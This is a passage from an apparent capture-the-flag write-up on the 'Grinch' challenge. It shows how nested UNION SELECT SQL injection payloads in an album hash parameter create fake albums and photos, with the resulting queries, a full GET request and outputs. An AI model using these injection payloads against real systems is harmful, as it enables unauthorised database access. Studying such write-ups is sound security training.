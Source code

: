 ```sql
create table album(id int, hash varchar(255), name varchar(255));
create table photo(album_id int, id int, photo varchar(255));
```

### 2. Creating a Custom Album

Using the album hash `fakehash' UNION SELECT 1337, 'my_hash', 'my_album_name'-- ` on the Grinch site would generate the following query:

```sql
SELECT * FROM album WHERE hash = 'fakehash' UNION SELECT 1337, 'my_hash', 'my_album_name'-- ';
```

Which returns 
id | hash | name
--- | --- | ---
1337 | my_hash | my_album_name

And of course, querying the endpoint returns no photos since this album does not exist:

```
GET /r3c0n_server_4fdk59/album?hash=fakehash'+UNION+SELECT+1337,+'my_hash',+'my_album_name'--+
```
```html
<div class="col-md-8 col-md-offset-2">
    <h1 class="text-center">my_album_name</h1>
    <div class="row">

        
    </div>
</div>
```

### 3. Adding Photos to Albums
What's an album without some nice photos?

Using the payload `fakehash' 
UNION SELECT "1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ", 'my_hash', 'my_album_name'-- ` we generate this query:

```sql
SELECT * FROM album WHERE hash = 'fakehash' 
UNION SELECT "1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ", 'my_hash', 'my_album_name'-- ';
```

Returning this result:
id | hash | name
--- | --- | ---
1337' UNION SELECT 0, 0, 'my_photo.jpg'--  | my_hash | my_album_name

And then, when the followup image fetch query runs, it will execute:

```sql
SELECT * FROM photo WHERE album_id = '1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ';
```

Returning:
album_id | id | photo
--- | --- | ---
0  | 0 | my_photo.jpg
